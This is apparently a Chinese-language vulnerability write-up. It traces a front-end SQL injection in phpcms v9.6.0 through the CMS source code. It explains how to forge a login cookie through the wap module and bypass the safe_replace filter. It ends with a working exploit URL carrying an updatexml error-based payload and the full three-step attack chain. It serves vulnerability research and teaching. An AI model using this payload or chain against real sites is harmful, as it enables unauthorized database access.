



# phpcms v9.6.0 sql inject

phpcms 采用mvc

数据库查询函数有

- get_one

- select

- query

这样三种

那么挖掘sql注入最终总是要经过这几个函数的，那么我们去寻找这几个函数所在的位置

先减小难度，通常前台sql的危险系数大，所以着重找前台的sql

那么mvc架构下

[phpcmsv9 文档](http://v9.help.phpcms.cn/html/2010/structure_0928/71.html)



那么我们搜索的点肯定集中在phpcms_dir/phpcms/modules/*

grep 提取文件名

`grep -rn "select(" * | cut -d":" -f 1`

`cat admin| sort |uniq |sort > admin_u`

`comm -23 select_u admin_u | grep -v -E "tpl.php$|class.php$|func.php|inc.php"`

筛选条件，所有具有extends admin的文件均不可直接由未登录用户直接使用这个接口

排除后还剩下

# list

select 

apps/phpcms/phpcms/modules/comment/uninstall/model.php
apps/phpcms/phpcms/modules/content/down.php
apps/phpcms/phpcms/modules/content/index.php
apps/phpcms/phpcms/modules/content/rss.php
apps/phpcms/phpcms/modules/content/search.php
apps/phpcms/phpcms/modules/formguide/index.php
apps/phpcms/phpcms/modules/member/content.php
apps/phpcms/phpcms/modules/message/index.php
apps/phpcms/phpcms/modules/poster/index.php
apps/phpcms/phpcms/modules/search/index.php
apps/phpcms/phpcms/modules/special/index.php
apps/phpcms/phpcms/modules/vote/index.php
apps/phpcms/phpcms/modules/wap/index.php

get_one

apps/phpcms/phpcms/modules/announce/index.php
apps/phpcms/phpcms/modules/comment/index.php
apps/phpcms/phpcms/modules/content/down.php
apps/phpcms/phpcms/modules/content/index.php
apps/phpcms/phpcms/modules/content/tag.php
apps/phpcms/phpcms/modules/dbsource/call.php
apps/phpcms/phpcms/modules/formguide/index.php
apps/phpcms/phpcms/modules/member/content.php
apps/phpcms/phpcms/modules/member/index.php
apps/phpcms/phpcms/modules/message/index.php
apps/phpcms/phpcms/modules/mood/index.php
apps/phpcms/phpcms/modules/pay/respond.php
apps/phpcms/phpcms/modules/poster/index.php
apps/phpcms/phpcms/modules/search/index.php
apps/phpcms/phpcms/modules/special/index.php
apps/phpcms/phpcms/modules/video/video_for_ck.php
apps/phpcms/phpcms/modules/vote/index.php
apps/phpcms/phpcms/modules/wap/index.php

query
apps/phpcms/phpcms/modules/comment/uninstall/model.php
apps/phpcms/phpcms/modules/content/fields/add.sql.php
apps/phpcms/phpcms/modules/content/fields/delete.sql.php
apps/phpcms/phpcms/modules/content/fields/edit.sql.php
apps/phpcms/phpcms/modules/content/search.php
apps/phpcms/phpcms/modules/dbsource/call.php
apps/phpcms/phpcms/modules/formguide/fields/add.sql.php
apps/phpcms/phpcms/modules/formguide/fields/delete.sql.php
apps/phpcms/phpcms/modules/formguide/fields/edit.sql.php
apps/phpcms/phpcms/modules/member/fields/add.sql.php
apps/phpcms/phpcms/modules/member/fields/delete.sql.php
apps/phpcms/phpcms/modules/member/fields/edit.sql.php


以第一个为例子

`apps/phpcms/phpcms/modules/comment/uninstall/model.php`

```php
<?php
defined('IN_PHPCMS') or exit('Access Denied');
defined('UNINSTALL') or exit('Access Denied'); 
$comment_table_db = pc_base::load_model('comment_table_model');
$tablelist = $comment_table_db->select('', 'tableid');
	foreach($tablelist as $k=>$v) {
		$comment_table_db->query("DROP TABLE IF EXISTS `".$comment_table_db->db_tablepre."comment_data_".$v['tableid']."`;");
	}
return array('comment', 'comment_check', 'comment_setting', 'comment_table');
?>
```
$comment_table_db 是 pc_base::load_model('commnet_table_model') 来的

`phpcms/model/comment_table_model.class.php`

`class comment_table_model extends model`

继承于model

class model所在的文件是`phpcms/libs/classes/model.class.php`

关键点是在构造函数中

`$this->db = db_factory::get_instance($this->db_config)->get_database($this->db_setting);`



可以看到默认的数据库连接方式是`mysqli`,

然后就返回了数据库连接，再接由封装好的函数进行数据操作

下面是一些基本的基础函数的跟踪

`phpcms/modules/comment/uninstall/model.php`

`pc_base::load_model('comment_table_model')`

phpstorm

find symbol -> `ctrl+shift+alt+N`

查找symbol

`phpcms/base.php`

```php
public static function load_model($classname) {
    return self::_load_class($classname,'model');
}

private static function _load_class($classname, $path = '', $initialize = 1) {
    static $classes = array();
    if (empty($path)) $path = 'libs'.DIRECTORY_SEPARATOR.'classes';

    $key = md5($path.$classname);
    if (isset($classes[$key])) {
        if (!empty($classes[$key])) {
            return $classes[$key];
        } else {
            return true;
        }
    }
    if (file_exists(PC_PATH.$path.DIRECTORY_SEPARATOR.$classname.'.class.php')) {
        include PC_PATH.$path.DIRECTORY_SEPARATOR.$classname.'.class.php';
        $name = $classname;
        if ($my_path = self::my_path(PC_PATH.$path.DIRECTORY_SEPARATOR.$classname.'.class.php')) {
            include $my_path;
            $name = 'MY_'.$classname;
        }
        if ($initialize) {
            $classes[$key] = new $name;
        } else {
            $classes[$key] = true;
        }
        return $classes[$key];
    } else {
        return false;
    }
}

```
如上函数执行`load_model`加载某类函数类文件

默认path = libs/classes

如果`libs/classes/$classname.class.php`文件存在就包含该文件

`phpcms/libs/classes/model.class.php`

```php
final public function select($where = '', $data = '*', $limit = '', $order = '', $group = '', $key='') {
    if (is_array($where)) $where = $this->sqls($where);
    return $this->db->select($data, $this->table_name, $where, $limit, $order, $group, $key);
}
```
这便是封装好的select 也就是

`$tablelist = $comment_table_db->select('', 'tableid');`

用到的select

但是注意到，这个select是表层的select，它调用的是$this->db->select

这个是在`phpcms/libs/classes/model.class.php`

构造函数中

`$this->db = db_factory::get_instance($this->db_config)->get_database($this->db_setting);`

由上面写到的默认为mysqli的初始连接

`phpcms/libs/classes/db_factory.class.php`

这个是get_database函数所在的文件，由命名空间也可以看出

get_database中的连接有该文件connect函数返回，但是注意到connect函数中mysqli部分由如下语句加载

`$object = pc_base::load_sys_class('db_mysqli');`

采用上面提到的操作定位到

```php
public static function load_sys_class($classname, $path = '', $initialize = 1) {
        return self::_load_class($classname, $path, $initialize);
}
```
_load_class我们上面已经看到，作用也很清楚

那么接下来跳转到文件

`phpcms/libs/classes/db_mysqli.class.php`

```php
public function select($data, $table, $where = '', $limit = '', $order = '', $group = '', $key = '') {
    $where = $where == '' ? '' : ' WHERE '.$where;
    $order = $order == '' ? '' : ' ORDER BY '.$order;
    $group = $group == '' ? '' : ' GROUP BY '.$group;
    $limit = $limit == '' ? '' : ' LIMIT '.$limit;
    $field = explode(',', $data);
    array_walk($field, array($this, 'add_special_char'));
    $data = implode(',', $field);

    $sql = 'SELECT '.$data.' FROM `'.$this->config['database'].'`.`'.$table.'`'.$where.$group.$order.$limit;
    $this->execute($sql);
    if(!is_object($this->lastqueryid)) {
        return $this->lastqueryid;
    }

    $datalist = array();
    while(($rs = $this->fetch_next()) != false) {
        if($key) {
            $datalist[$rs[$key]] = $rs;
        } else {
            $datalist[] = $rs;
        }
    }
    $this->free_result();
    return $datalist;
}
```

可以看到，这个位置的$sql变量就是sql语句直接交给execute函数，并由execute中的$this->link->query直接执行，那么这个$this->link是什么？在初始化connect函数中

`$this->link = new mysqli()`

就是这样然后我们溯源到最上层

`phpcms/modules/comment/uninstall/model.php`

没有条件可以由我们控制传入的参数，同理用于该文件下面的query函数，这里就重复如上步骤即可得证

理清了，这几个连接函数，和查询函数，那么直接寻在在上述文件列表中的函数中，是否有直接可以控制的参数并带入查询的

下面逐一排查

经过排查你会发现这个地方带入传入参数的参数都过了一个函数叫intval()这个函数限定了只能为数值

但是有个关键点在

`phpcms/modules/content/down.php`

之中用到了get_one(array('id'=>$id))函数进行数据库查询，但是前面的代码中虽然有`if(isset($i)) $i = $id = intval($i);`

似乎限定了id只能是数值，其实不然，在上面一点处理$a_k的地方，采用了parse_str()这种危险函数对解码后的$a_k中的参数赋值，那么如果能控制$a_k那么就可以直接绕过下面的语句

在不设定$i的情况下，给$id赋值

那么关键的加密解密函数来了

`phpcms/libs/functions/global.func.php`

```php
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0) {
	$ckey_length = 4;
	$key = md5($key != '' ? $key : pc_base::load_config('system', 'auth_key'));
	$keya = md5(substr($key, 0, 16));
	$keyb = md5(substr($key, 16, 16));
	$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

	$cryptkey = $keya.md5($keya.$keyc);
	$key_length = strlen($cryptkey);

	$string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);

	$result = '';
	$box = range(0, 255);

	$rndkey = array();
	for($i = 0; $i <= 255; $i++) {
		$rndkey[$i] = ord($cryptkey[$i % $key_length]);
	}

	for($j = $i = 0; $i < 256; $i++) {
		$j = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
	}

	for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	}

	if($operation == 'DECODE') {
		if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
			return substr($result, 26);
		} else {
			return '';
		}
	} else {
		return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
	}
}
```

这是最关键的函数，它的具体运算我暂时不进行深入分析，我们只需要找一个可以利用的encode的点就很接近成功了，

但是发现并不是这么容易，需要看到项有点多，需要一定的耐心

phpcms/modules/content/down.php:75

phpcms/modules/content/fields/downfiles/output.inc.php:15

phpcms/modules/admin/admin_manage.php:282

phpcms/modules/content/fields/downfiles/output.inc.php:10

phpcms/modules/member/index.php:163

phpcms/modules/member/index.php:176

phpcms/modules/member/index.php:300

phpcms/modules/member/index.php:745

phpcms/modules/member/index.php:1150

phpcms/modules/member/index.php:1268

phpcms/modules/member/index.php:1331

phpcms/modules/member/index.php:1388

phpcms/modules/member/index.php:1508

phpcms/modules/admin/classes/card.class.php:23

phpcms/modules/admin/classes/card.class.php:41

phpcms/modules/admin/classes/card.class.php:50

phpcms/modules/admin/classes/card.class.php:51

phpcms/modules/admin/classes/card.class.php:62

phpcms/modules/admin/classes/card.class.php:89

phpcms/modules/member/classes/client.class.php:254

phpcms/modules/attachment/attachment.php:97

phpcms/libs/classes/param.class.php:93

phpcms/libs/classes/param.class.php:96

`caches/configs/system.php`

`'auth_key' => 'p5qrBKxPPH8CZ97wnkKs', //密钥`

注意看到在 function sys_auth()中定义的时候的一个点

`$key = md5($key != '' ? $key : pc_base::load_config('system', 'auth_key'));`

当key为空的时候就采用默认值，那么上述文件中调用了sys_auth函数中的没有设置key的只有

phpcms/modules/content/fields/downfile/output.inc.php:15

phpcms/modules/content/fields/downfile/output.inc.php:10

phpcms/modules/attachment/attachments.php:97

phpcms/libs/classes/param.class.php:93

phpcms/libs/classes/param.class.php:96

所以上面筛选的那个步骤其实是不必要的，代码阅读的越仔细，就越不容易走到远路上去

那么重点看这个几个文件的相关函数，能不能控制参数，然后使其加密我们想加密的内容

前两个被定义在一个downfile函数里。目前没有找到调用这个函数的地方有点怪



`phpcms/modules/attachment/attachments.php:97`

这个最后会include $this->admin_tpl一切关于admin的都押后测试，因为可能涉及到权限问题

就剩下

`phpcms/libs/classes/param.class.php:93`

```php
public static function set_cookie($var, $value = '', $time = 0) {
    $time = $time > 0 ? $time : ($value == '' ? SYS_TIME - 3600 : 0);
    $s = $_SERVER['SERVER_PORT'] == '443' ? 1 : 0;
    $var = pc_base::load_config('system','cookie_pre').$var;
    $_COOKIE[$var] = $value;
    if (is_array($value)) {
        foreach($value as $k=>$v) {
            setcookie($var.'['.$k.']', sys_auth($v, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
        }
    } else {
        setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
    }
}
```

该函数被很多地方调用，但是很好排除，要我们可以传递参数进去可以控制$value的

phpcms/modules/video/video.php:409

phpcms/modules/video/video.php:425

phpcms/modeles/attachment/attachments.php:231

phpcms/modeles/attachment/attachments.php:250
phpcms/modeles/attachment/attachments.php:266

phpcms/modules/member/index.php
的多处都是需要登录后才会设置的

暂只考虑前两个文件中的而且这两文件中的函数几乎一样，我们因为poc偷懒下优先选择attachments.php的来分析

```php
public function swfupload_json() {
    $arr['aid'] = intval($_GET['aid']);
    $arr['src'] = safe_replace(trim($_GET['src']));
    $arr['filename'] = urlencode(safe_replace($_GET['filename']));
    $json_str = json_encode($arr);
    $att_arr_exist = param::get_cookie('att_json');
    $att_arr_exist_tmp = explode('||', $att_arr_exist);
    if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
        return true;
    } else {
        $json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
        param::set_cookie('att_json',$json_str);
        return true;			
    }
}
```
可以看到过程十分简单，将传入的直接json_encode后直接就set_cookie了，这样我们传入我们想要的东西，就会自动帮我们传入并且自动加密了，并且会在cookie中的att_json直接输出出来

进行最后的分析，video.php load了admin模块，这个没有登录是无法直接访问的

attachments.php则没有这个限制

但是有个限制在于

```php
function __construct() {
    pc_base::load_app_func('global');
    $this->upload_url = pc_base::load_config('system','upload_url');
    $this->upload_path = pc_base::load_config('system','upload_path');		
    $this->imgext = array('jpg','gif','png','bmp','jpeg');
    $this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'],'DECODE'));
    $this->isadmin = $this->admin_username = $_SESSION['roleid'] ? 1 : 0;
    $this->groupid = param::get_cookie('_groupid') ? param::get_cookie('_groupid') : 8;
    //判断是否登录
    if(empty($this->userid)){
        showmessage(L('please_login','','member'));
    }
}
```

在构造函数里。用一个userid的session或者cookie来证明登录了

那么如何拥有这个cookie将是最后的点了，因为session肯定是无法认为设置的，但是cookie是可以的

那么只要突破这个点，那么我们就能直接注入了

```php
public static function get_cookie($var, $default = '') {
    $var = pc_base::load_config('system','cookie_pre').$var;
    $value = isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default;
    if(in_array($var,array('_userid','userid','siteid','_groupid','_roleid'))) {
        $value = intval($value);
    } elseif(in_array($var,array('_username','username','_nickname','admin_username','sys_lang'))) { //  site_model auth
        $value = safe_replace($value);
    }
    return $value;
}
```

可以看到，返回值还是由sys_auth函数决定，那么我们就需要去找一个别的地方加密好的，才能DECODE成功并且返回真值

之前已经分析了，set_cookie函数是满足这个要求的，而且注意intval函数限制了必须是个数字，这个只能慢慢寻找了

set_cookie这个函数被使用到的地方排除admin,.class.php,member目录下的，content目录下的，admin目录下的，就只剩下了

phpcms/modules/wap/index.php

这些地方可以setcookie来设置一个数值的

```php
function __construct() {		
    $this->db = pc_base::load_model('content_model');
    $this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);
    param::set_cookie('siteid',$this->siteid);	
    $this->wap_site = getcache('wap_site','wap');
    $this->types = getcache('wap_type','wap');
    $this->wap = $this->wap_site[$this->siteid];
    define('WAP_SITEURL', $this->wap['domain'] ? $this->wap['domain'].'index.php?' : APP_PATH.'index.php?m=wap&siteid='.$this->siteid);
    if($this->wap['status']!=1) exit(L('wap_close_status'));
}
```

可以看到如果没有siteid就设置为1并且设置到cookie

所以可以等价替换userid这个cookie的值来完成页面验证

最后再来看最后一个引入数据库的前的步骤

`phpcms/modules/attachment/attachments.php`

```php
public function swfupload_json() {
    $arr['aid'] = intval($_GET['aid']);
    $arr['src'] = safe_replace(trim($_GET['src']));
    $arr['filename'] = urlencode(safe_replace($_GET['filename']));
    $json_str = json_encode($arr);
    $att_arr_exist = param::get_cookie('att_json');
    $att_arr_exist_tmp = explode('||', $att_arr_exist);
    if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
        return true;
    } else {
        $json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
        param::set_cookie('att_json',$json_str);
        return true;			
    }
}
```

src参数可以传递字符串只是要通过safe_replace函数

```php
function safe_replace($string) {
	$string = str_replace('%20','',$string);
	$string = str_replace('%27','',$string);
	$string = str_replace('%2527','',$string);
	$string = str_replace('*','',$string);
	$string = str_replace('"','&quot;',$string);
	$string = str_replace("'",'',$string);
	$string = str_replace('"','',$string);
	$string = str_replace(';','',$string);
	$string = str_replace('<','&lt;',$string);
	$string = str_replace('>','&gt;',$string);
	$string = str_replace("{",'',$string);
	$string = str_replace('}','',$string);
	$string = str_replace('\\','',$string);
	return $string;
}
```

就是很简单的道理替换为空，而且只替换一次，那么就可以用%*27这种直接绕过

并通过`parse_str()`完成赋值

```php
if(isset($i)) $i = $id = intval($i);
if(!isset($m)) showmessage(L('illegal_parameters'));
if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
if(empty($f)) showmessage(L('url_invalid'));
```

满足上述条件

构造一下

```
http://127.0.0.1:8081/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and+updatexml%281%2Cconcat%280x7e%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3D1%26modelid%3D1%26catid%3D1
```

json后字符串就如下

`{"aid":1,"src":"&id=%27 and updatexml(1,concat(0x7e,(user())),1)#&m=1&f=1&modelid=1&catid=1","filename":""}`

那么最后整理下进行过程

请求index.php?m=wap&a=index获得`*__siteid`的cookie

然后添加该值给`*__userid`,带着这个新的cookie请求`index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=playload`

得到新的cookie `*_att_json`的值，带上值请求`index.php?m=content&c=down&a_k=值`

完成了攻击
